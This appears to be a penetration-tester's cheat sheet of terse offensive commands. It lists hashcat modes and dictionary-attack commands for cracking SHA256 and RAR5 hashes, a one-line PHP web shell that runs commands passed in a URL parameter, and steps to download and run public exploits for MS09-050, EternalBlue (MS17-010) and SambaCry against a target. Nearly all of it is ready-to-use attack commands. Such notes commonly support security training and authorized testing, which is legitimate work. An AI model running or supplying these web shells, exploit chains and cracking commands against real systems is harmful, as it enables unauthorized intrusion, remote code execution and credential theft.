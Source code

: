 **Hashcat**

Modes

* SHA256: 1400
* SHA512: 1800
* RAR5: 13000

Attacks

* Dictionary: 0

```
hashcat -m 1400 -a 0 /path/to/hashes.txt /usr/share/wordlists/rockyou.txt
```

```
hashcat -m 13000 -a 0 rar.hash /usr/share/wordlists/rockyou.txt
```

**Local File Inclusions**

Find a way to upload a PHP command shell.

```
echo "<?php echo shell_exec($_GET['cmd']); ?>" > shell.php
```

**MS09-050**

**CVE-2009-3103: SMBv2 Command Value Vulnerability**\
This vulnerability impacts Windows Server 2008 SP1 32-bit as well as Windows Vista SP1/SP2 and Windows 7.

```
nmap $TARGET -p445 --script smb-vuln-cve2009-3103
wget https://raw.githubusercontent.com/ohnozzy/Exploit/master/MS09_050.py
```

**EternalBlue**

**CVE-2017-0144**\
This vulnerability impacts Windows. Exploiting it requires access to a Named Pipe (NOTE: Windows Vista and newer does not allow anonymous access to Named Pipes).

```
git clone https://github.com/worawit/MS17-010
cd MS17-010
pip install impacket # mysmb.py ships with this exploit. offsec also hosts it on their GitHub
python checker.py $TARGET # check if target is vulnerable and find an accessible Named Pipe
python zzz_exploit.py $TARGET $NAMED_PIPE
```

**SambaCry**

**CVE-2017-7494**\
Exploiting this vulnerability depends on your ability to write to a share. Download Proof-of-Concept code from joxeankoret and modify as desired.

```
mkdir exploits
cd exploits
git clone https://github.com/joxeankoret/CVE-2017-7494.git
cd CVE-2017-7494
mv implant.c implant.bak
vim implant.c
```
